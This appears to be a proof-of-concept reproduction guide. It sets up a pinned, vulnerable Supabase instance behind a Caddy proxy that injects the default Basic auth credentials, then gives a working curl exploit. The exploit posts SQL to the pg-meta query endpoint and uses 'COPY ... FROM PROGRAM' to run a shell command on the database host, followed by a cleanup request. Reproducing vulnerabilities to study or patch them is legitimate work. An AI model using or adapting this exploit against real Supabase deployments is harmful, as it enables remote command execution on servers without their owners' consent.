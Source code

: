 # Start Vulnerable instance
```bash
git clone https://github.com/supabase/supabase
pushd supabase
git checkout d83ef08ea1aa661ead1af970a094c512319863f8
popd
mkdir supabase-project
cp -rf supabase/docker/* supabase-project
cp supabase/docker/.env.example supabase-project/.env
cd supabase-project
wget https://github.com/caddyserver/caddy/releases/download/v2.8.4/caddy_2.8.4_linux_amd64.tar.gz && tar -zxvf caddy_2.8.4_linux_amd64.tar.gz  caddy && rm caddy_2.8.4_linux_amd64.tar.gz && chmod +x caddy
./caddy reverse-proxy --from :8001 --to http://localhost:8000 --header-up "Authorization: Basic c3VwYWJhc2U6dGhpc19wYXNzd29yZF9pc19pbnNlY3VyZV9hbmRfc2hvdWxkX2JlX3VwZGF0ZWQ=" --access-log &
docker compose pull
docker compose up 

```

# Access the exposed UI
Open your browser and navigate to `http://localhost:8001` to access the Supabase Exposed UI. Open `http://localhost:8000` to access the Supabase UI, username is `supabase` and password is `this_password_is_insecure_and_should_be_updated`
# Use the following command to run the exploit
```bash
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"CREATE TABLE filelist (filename text);\\nCOPY filelist FROM PROGRAM \'uname -a\';\\nSELECT * FROM filelist;","disable_statement_timeout":true}'

# cleanup
curl 'http://127.0.0.1:8001/api/platform/pg-meta/default/query?key=' \
  -X POST \
  -H 'content-type: application/json' \
  -H 'x-connection-encrypted: ' \
  --data-raw $'{"query":"drop table filelist","disable_statement_timeout":true}'
```